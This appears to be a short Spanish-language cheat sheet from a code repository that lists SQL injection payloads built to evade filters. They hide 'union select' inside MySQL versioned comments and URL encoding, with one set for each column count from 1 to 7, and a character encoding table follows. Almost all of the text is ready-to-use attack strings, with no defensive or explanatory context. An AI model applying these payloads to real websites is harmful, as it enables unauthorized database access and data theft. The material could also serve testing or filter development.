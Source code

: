 #### bypass usando comentarios + url encoding 
```
 /*!%55nion*/%20/*!%53elect*/1
 /*!%55nion*/%20/*!%53elect*/%201,2
 /*!%55nion*/%20/*!%53elect*/%201,2,3
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4,5
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4,5,6
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4,5,6,7
 
 /*!12345%55nion*/ /*!12345%53elect*/ 1
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2
 /*!1234%55nion*/ /*!12345%53elect*/ 1,2,3
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4,5
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4,5,6
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4,5,6,7
 
 /*!12345%55nion*/(/*!12345%53elect*/ 1)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4,5)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4,5,6)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4,5,6,7)

```

### HTML URL Encode (Codificación Url)

```
union select:

u	= %75
n	= %6e
i	= %69
o	= %6f
n	= %6e
space	= %20
s	= %73
e	= %65
l	= %6c
c	= %63
t	= %74

```
